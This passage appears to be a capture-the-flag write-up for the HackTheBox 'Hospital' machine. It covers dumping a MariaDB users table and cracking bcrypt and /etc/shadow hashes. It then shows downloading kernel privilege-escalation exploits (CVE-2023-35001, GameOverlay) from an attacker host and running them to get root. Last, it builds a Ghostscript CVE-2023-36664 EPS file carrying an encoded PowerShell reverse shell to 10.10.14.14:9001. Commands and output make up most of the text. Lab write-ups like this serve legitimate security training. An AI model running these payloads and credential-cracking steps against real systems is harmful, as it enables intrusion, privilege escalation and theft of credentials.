Let's try to see what's in DB.

### mysql

```sql
www-data@webserver:/tmp$ mysql -u root -p
mysql -u root -p
Enter password: my$qls3rv1c3!

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 16
Server version: 10.11.2-MariaDB-1 Ubuntu 23.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| hospital           |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.015 sec)

MariaDB [(none)]> use hospital;
use hospital;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [hospital]> show tables;
show tables;
+--------------------+
| Tables_in_hospital |
+--------------------+
| users              |
+--------------------+
1 row in set (0.000 sec)

MariaDB [hospital]> select * from users;
select * from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | admin    | $2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2 | 2023-09-21 14:46:04 |
|  2 | patient  | $2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO | 2023-09-21 15:35:11 |
|  3 | bokchee  | $2y$10$i12GXTXQ/iOxtCANt4p6serSZ/4balS4ssPq9fzEdUWHw70sGQxu6 | 2024-12-13 02:38:13 |
+----+----------+--------------------------------------------------------------+---------------------+
3 rows in set (0.000 sec)
```

Given the found hashes, let's try crack these hashes.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 3200 -a 0 hashes /usr/share/wordlists/rockyou.txt.gz 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================
* Device #1: cpu--0x000, 1437/2939 MB (512 MB allocatable), 4MCU

<SNIP>

Dictionary cache building /usr/share/wordlists/rockyou.txt.gz: 33553434 bytDictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 2 secs

$2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2:123456
```

I cracked `admin`'s password : `123456`.
However, when I sign-in with the credential, there was no difference in the upload page.
Let's move on to next step.

```bash
www-data@webserver:/tmp$ uname -a
uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

Unlike my expectation, the OS is linux. I think it's either Virtual Machine or Docker.
Since the user doesn't belong to `docker` group, I think it's Virtual machine.

Just in case if there's any vulnerability in this kernel version, I googled the version.
And I found several CVEs : `CVE-2023-35001`, `CVE-2023-2640`, `CVE-2023-32629`
- `CVE-2023-35001` : https://github.com/synacktiv/CVE-2023-35001
- `CVE-2023-2640`, `CVE-2023-32629` : https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629

Let's try these in order.

### CVE-2023-35001

```bash
$ file exploit
exploit: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a0eec4772ad602e9948c8fdd1c6b08b0e214b34d, for GNU/Linux 3.2.0, with debug_info, not stripped
$ ./exploit
[+] Using config: 5.19.0-35-generic
[+] Recovering module base
[E] Module leak failed: fork/exec /tmp/wrapper: no such file or directory
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
```

I tried with compiled binary, but didn't work.
Also, I tried to use `Go` build, but couldn't succeed due to OS architecture.

So, let me just copy and paste the solve from `0xdf`'s blog.

```bash
oxdf@hacky$ git clone https://github.com/synacktiv/CVE-2023-35001.git
Cloning into 'CVE-2023-35001'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 9 (delta 0), reused 9 (delta 0), pack-reused 0
Receiving objects: 100% (9/9), 13.02 KiB | 3.25 MiB/s, done.

oxdf@hacky$ cd CVE-2023-35001

oxdf@hacky$ ls
go.mod  go.sum  main.go  Makefile  README.md  src

oxdf@hacky$ make go build gcc -Wall -Wextra -Werror -std=c99 -Os -g0 -D_GNU_SOURCE -D_DEFAULT_SOURCE -D_POSIX_C_SOURCE=200809L src/wrapper.c -o wrapper zip lpe.zip exploit wrapper adding: exploit (deflated 43%) adding: wrapper (deflated 83%) oxdf@hacky$ ls exploit go.mod go.sum lpe.zip main.go Makefile README.md src wrapper

www-data@webserver:/tmp$ wget 10.10.14.6/exploit --2024-04-10 03:17:14-- http://10.10.14.6/exploit Connecting to 10.10.14.6:80... connected. HTTP request sent, awaiting response... 200 OK Length: 2817760 (2.7M) [application/octet-stream] Saving to: 'exploit' exploit 100%[===================>] 2.69M 3.25MB/s in 0.8s h 2024-04-10 03:17:15 (3.25 MB/s) - 'exploit' saved [2817760/2817760] 

www-data@webserver:/tmp$ wget 10.10.14.6/wrapper --2024-04-10 03:18:15-- http://10.10.14.6/wrapper Connecting to 10.10.14.6:80... connected. HTTP request sent, awaiting response... 200 OK Length: 16264 (16K) [application/octet-stream] Saving to: 'wrapper' wrapper 100%[===================>] 15.88K --.-KB/s in 0.1s 2024-04-10 03:18:16 (147 KB/s) - 'wrapper' saved [16264/16264]

www-data@webserver:/tmp$ chmod +x exploit wrapper 

www-data@webserver:/tmp$ ./exploit [+] Using config: 5.19.0-35-generic [+] Recovering module base [+] Module base: 0xffffffffc050f000 [+] Recovering kernel base [+] Kernel base: 0xffffffffa9000000 [+] Got root !!! 

# id uid=0(root) gid=0(root) groups=0(root)
```

### CVE-2023-32629 (GameOverlay)

Local privilege escalation vulnerability in Ubuntu Kernels overlayfs ovl_copy_up_meta_inode_data skip permission checks when calling ovl_do_setxattr on Ubuntu kernels

```bash
$ wget http://10.10.14.14:8000/exploit.sh
--2024-12-13 11:31:42--  http://10.10.14.14:8000/exploit.sh
Connecting to 10.10.14.14:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 558 [text/x-sh]
Saving to: 'exploit.sh'

     0K                                                       100% 84.5M=0s

2024-12-13 11:31:42 (84.5 MB/s) - 'exploit.sh' saved [558/558]

$ chmod +x exploit.sh

$ ./exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned

id
uid=0(root) gid=33(www-data) groups=33(www-data)

whoami
root
```


# Shell as `drbrown`

### Crack hash

```bash
cat /etc/shadow
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
daemon:*:19462:0:99999:7:::
bin:*:19462:0:99999:7:::
sys:*:19462:0:99999:7:::
sync:*:19462:0:99999:7:::
games:*:19462:0:99999:7:::
man:*:19462:0:99999:7:::
lp:*:19462:0:99999:7:::
mail:*:19462:0:99999:7:::
news:*:19462:0:99999:7:::
uucp:*:19462:0:99999:7:::
proxy:*:19462:0:99999:7:::
www-data:*:19462:0:99999:7:::
backup:*:19462:0:99999:7:::
list:*:19462:0:99999:7:::
irc:*:19462:0:99999:7:::
_apt:*:19462:0:99999:7:::
nobody:*:19462:0:99999:7:::
systemd-network:!*:19462::::::
systemd-timesync:!*:19462::::::
messagebus:!:19462::::::
systemd-resolve:!*:19462::::::
pollinate:!:19462::::::
sshd:!:19462::::::
syslog:!:19462::::::
uuidd:!:19462::::::
tcpdump:!:19462::::::
tss:!:19462::::::
landscape:!:19462::::::
fwupd-refresh:!:19462::::::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
lxd:!:19612::::::
mysql:!:19620::::::
```

Here I can read `/etc/shadow` file.
There are two hashes are extractable : `root`, `drwilliams`
Use `/etc/passwd` file to unshadow this.

```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:106::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:101:1::/var/cache/pollinate:/bin/false
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
syslog:x:103:109::/nonexistent:/usr/sbin/nologin
uuidd:x:104:110::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:111::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:113::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:108:114:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:109:116:MySQL Server,,,:/nonexistent:/bin/false
```

```bash
┌──(kali㉿kali)-[~/htb/hashcrack]
└─$ unshadow passwd shadow > unshadowed
                                                                            
┌──(kali㉿kali)-[~/htb/hashcrack]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwe123!@#        (drwilliams)     
1g 0:00:01:05 DONE (2024-12-13 00:15) 0.01530g/s 3282p/s 3282c/s 3282C/s raycharles..pl@yboy
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Here I cracked `drwilliams`'s password : `qwe123!@#`
Let's try if it's working on `ssh` first.

```bash
┌──(kali㉿kali)-[~/htb/hashcrack]
└─$ ssh drwilliams@hospital.htb  
The authenticity of host 'hospital.htb (10.10.11.241)' can't be established.
ED25519 key fingerprint is SHA256:4EI5pSeg97Oajb3INOzVG2LSJZkL6lRMYg+76QCGF64.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'hospital.htb' (ED25519) to the list of known hosts.
drwilliams@hospital.htb's password: 
Welcome to Ubuntu 23.04 (GNU/Linux 5.19.0-35-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Dec 13 12:18:17 PM UTC 2024

  System load:  0.08              Processes:             130
  Usage of /:   72.0% of 6.06GB   Users logged in:       0
  Memory usage: 50%               IPv4 address for eth0: 192.168.5.2
  Swap usage:   0%


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

drwilliams@webserver:~$ whoami
drwilliams
```

I got a shell of `drwilliams`.

### Webmail

However, there's nothing else to do for now...
I just recall that I have another login page on port 443(https).
It was an webmail service! Let's try on this.


I got in, and could see `drbrown`'s mail.
Let's open the received mail.


Chris Brown with `drbrown@hospital.htb` has sent this mail to `Lucy`(Dr. Williams) to mention about ongoing project. He mentions that they need to use `.eps` for file extension.
So, hopefully I can find `.eps` file somewhere.
He is asking to send email with `eps` file.

Regarding `.eps`, and `GhostScript` mentioned in this mail, here are the definitions:
- eps : An EPS (Encapsulated PostScript) file is a vector graphics file format used primarily for graphics, illustrations, and layouts. It is a subset of the broader PostScript language, designed for embedding images or illustrations into other documents. EPS files are widely used in the publishing and printing industries because they maintain high-quality resolution regardless of resizing.
- GhostScript : A suite of software tools used to interpret and process PostScript (PS) and PDF files.

Regarding these two keywords (`eps`, `GhostScript`), I was able to find CVE : `CVE-2023-36664`
Its reference and PoC are as follows:
https://nvd.nist.gov/vuln/detail/CVE-2023-36664
https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection

### Exploit `CVE-2023-36664`

```bash
┌──(kali㉿kali)-[~/htb/CVE-2023-36664-Ghostscript-command-injection]
└─$ python CVE_2023_36664_exploit.py --generate --filename rshell --extension eps --payload "powershell -e JGNsaWVudCA9IE5ldy1PYmplY3QgU3lzdGVtLk5ldC5Tb2NrZXRzLlRDUENsaWVudCgiMTAuMTAuMTQuMTQiLDkwMDEpOyRzdHJlYW0gPSAkY2xpZW50LkdldFN0cmVhbSgpO1tieXRlW11dJGJ5dGVzID0gMC4uNjU1MzV8JSV7MH07d2hpbGUoKCRpID0gJHN0cmVhbS5SZWFkKCRieXRlcywgMCwgJGJ5dGVzLkxlbmd0aCkpIC1uZSAwKXs7JGRhdGEgPSAoTmV3LU9iamVjdCAtVHlwZU5hbWUgU3lzdGVtLlRleHQuQVNDSUlFbmNvZGluZykuR2V0U3RyaW5nKCRieXRlcywwLCAkaSk7JHNlbmRiYWNrID0gKGlleCAkZGF0YSAyPiYxIHwgT3V0LVN0cmluZyApOyRzZW5kYmFjazIgPSAkc2VuZGJhY2sgKyAiUFMgIiArIChwd2QpLlBhdGggKyAiPiAiOyRzZW5kYnl0ZSA9IChbdGV4dC5lbmNvZGluZ106OkFTQ0lJKS5HZXRCeXRlcygkc2VuZGJhY2syKTskc3RyZWFtLldyaXRlKCRzZW5kYnl0ZSwwLCRzZW5kYnl0ZS5MZW5ndGgpOyRzdHJlYW0uRmx1c2goKX07JGNsaWVudC5DbG9zZSgp"
[+] Generated EPS payload file: rshell.eps


┌──(kali㉿kali)-[~/htb/CVE-2023-36664-Ghostscript-command-injection]
└─$ cat rshell.eps                                 
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: 0 0 300 300
%%Title: Welcome EPS

/Times-Roman findfont
24 scalefont
setfont

newpath
50 200 moveto
(Welcome at vsociety!) show

newpath
30 100 moveto
60 230 lineto
90 100 lineto
stroke
(%pipe%powershell -e JGNsaWVudCA9IE5ldy1PYmplY3QgU3lzdGVtLk5ldC5Tb2NrZXRzLlRDUENsaWVudCgiMTAuMTAuMTQuMTQiLDkwMDEpOyRzdHJlYW0gPSAkY2xpZW50LkdldFN0cmVhbSgpO1tieXRlW11dJGJ5dGVzID0gMC4uNjU1MzV8JSV7MH07d2hpbGUoKCRpID0gJHN0cmVhbS5SZWFkKCRieXRlcywgMCwgJGJ5dGVzLkxlbmd0aCkpIC1uZSAwKXs7JGRhdGEgPSAoTmV3LU9iamVjdCAtVHlwZU5hbWUgU3lzdGVtLlRleHQuQVNDSUlFbmNvZGluZykuR2V0U3RyaW5nKCRieXRlcywwLCAkaSk7JHNlbmRiYWNrID0gKGlleCAkZGF0YSAyPiYxIHwgT3V0LVN0cmluZyApOyRzZW5kYmFjazIgPSAkc2VuZGJhY2sgKyAiUFMgIiArIChwd2QpLlBhdGggKyAiPiAiOyRzZW5kYnl0ZSA9IChbdGV4dC5lbmNvZGluZ106OkFTQ0lJKS5HZXRCeXRlcygkc2VuZGJhY2syKTskc3RyZWFtLldyaXRlKCRzZW5kYnl0ZSwwLCRzZW5kYnl0ZS5MZW5ndGgpOyRzdHJlYW0uRmx1c2goKX07JGNsaWVudC5DbG9zZSgp) (w) file /DCTDecode filter
showpage  
```

Just created `rshell.eps` to connect reverse shell.
Let's send a mail with this as attachment.



> It's not working from here for some reason.. Let's revisit this machine later...?